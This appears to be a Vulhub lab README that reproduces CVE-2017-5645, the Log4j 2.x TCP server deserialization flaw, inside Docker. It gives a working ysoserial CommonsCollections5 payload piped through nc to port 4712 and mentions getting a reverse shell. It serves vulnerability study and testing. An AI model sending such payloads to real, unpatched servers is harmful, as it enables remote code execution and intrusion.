


# Apache Log4j TCP Server Deserialization Remote Code Execution (CVE-2017-5645)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Log4j is a logging library for Java that supports starting remote logging servers. A security vulnerability exists in versions 2.x before 2.8.2 of Apache Log4j TCP Server. Attackers can exploit this vulnerability to execute arbitrary code.

References:

- https://issues.apache.org/jira/browse/LOG4J2-1863
- https://github.com/pimps/CVE-2017-5645

## Environment Setup

Execute the following command to start a Log4j 2.8.1 TCP server:

```
docker compose up -d
```

After the environment starts, a TCP server will be opened on port 4712.

Note: Besides using Vulhub's docker image to set up the environment, we can directly start this TCP server from the command line after downloading the log4j jar files: `java -cp "log4j-api-2.8.1.jar:log4j-core-2.8.1.jar:jcommander-1.72.jar" org.apache.logging.log4j.core.net.server.TcpSocketServer`, without needing to use Vulhub or write code.

## Vulnerability Reproduction

We use ysoserial to generate a payload, then send it directly to the `your-ip:4712` port.

```
java -jar ysoserial-master-v0.0.5-gb617b7b-16.jar CommonsCollections5 "touch /tmp/success" | nc your-ip 4712
```

Then execute `docker compose exec log4j bash` to enter the container, and you can see that /tmp/success has been successfully created:



Execute a [reverse shell command](http://www.jackson-t.ca/runtime-exec-payloads.html) to successfully get a shell:


